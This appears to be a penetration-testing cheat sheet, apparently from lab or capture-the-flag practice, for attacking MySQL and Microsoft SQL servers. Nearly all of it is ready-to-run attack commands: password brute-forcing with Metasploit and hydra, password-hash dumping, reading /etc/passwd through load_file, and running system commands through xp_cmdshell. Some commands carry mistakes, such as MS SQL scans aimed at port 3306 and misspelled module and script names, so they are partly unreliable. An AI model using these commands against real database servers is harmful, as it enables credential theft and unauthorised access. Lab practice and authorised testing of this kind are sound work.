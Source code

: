 ```yaml
---
description: 1433 - MS Sql, 3306 - Linux
---
```


# v - MySQL - 1433,3306

`nmap $ip -sV -p3306` - basic enumeration.

`mysql -h $ip -u root` - lets try to login with "root".

### Using Metasploit

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
use auxiliary/scanner/mysql/mysql_writable_dirs
show options
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $ip
show advanced
set verbose false
set username root
set password ""
options
run

# 2
# dumping hashed of users in the db
use auxiliary/scanner/mysql/mysql_hashdump
options
set username root
set password ""
exploit

# 3
# enumerate/directory bruteforcing
# /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
use auxiliary/scanner/mysql/mysql_file_enum
set FILE_LIST
```
{% endcode %}

## Accessing System FIles from MySql

```sql
# 1
# when you successfully login into victim mysql db
# outputs the /etc/passwd file.
select load_file('/etc/passwd');

```

## Using Nmap to check for Accounts with no passwords

`nmap $ip  --script=mysql-info  -p3306` - all info about the db.

`nmap $ip -sV -p3306 --script=mysql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=mysql-info` - outputs info about the db.

`nmap $ip -sV -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"` - enumerate users in the db.

`nmap $ip -sV -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"` - enumerate databases.

`nmap $ip -sV -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"` - enumerate variables.&#x20;

`nmap $ip -sV -p3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"` - auditing the db.

`nmap $ip -sV -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"` - dumps hashes (hashdump).

## Dictionary Attacks (brutefrocing creds)

### \[msfconsole] Metasploit

```bash
# bruteforcing with metasploit
use auxilary/scanner/mysql/mysql_login
set rhosts $ip
set pass_file usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
run
```

### \[hydra] utility

`hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip mysql` - run the attack.



## Microsoft  SQL  nmap scripts

`nmap $ip -p1433 --script ms-sql-info` - enumerate the ms-sql server version.

`nmap $ip -p1433 --script ms-sql-ntlm-info --script-args  mssql.instance-port=1433`  - enumerate ms-sql ntlm info.

`nmap $ip -p3306 --script ms-sql-brute --script-args userdb=/path_to_wordlist,passdb=/path_to_wd` - brute forcing.

`nmap $ip -sV -p1433 --script=ms-sql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=dking,ms-sql-query.query="SELECT * FROM <table_name>..syslogins" -oN output.txt` - performs a query

`nmap $ip -sV -p3306 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anabell` - hashdump

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="ipconfig"` - run a query that executes the "ipconfig" cmd.

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"` - run a query that reads the content of the "flag.txt" file.

## Microsoft  SQL enumeration with Metasploit

```bash
# 1
# enumerare list of users creds.
use auxiliary/sscanner/mssql/mssql_login
setg rhosts $ip
set user_file /wordlist_path
set pass_file /common-passwords.txt
set verbose false
run

# 2
use auxiliary/admin/mssql/mssql_exec
set cmd whoami
options
run 

# 3
use auxiliary/admin/mssql/mssql_enum_domain_accounts
exploit
```



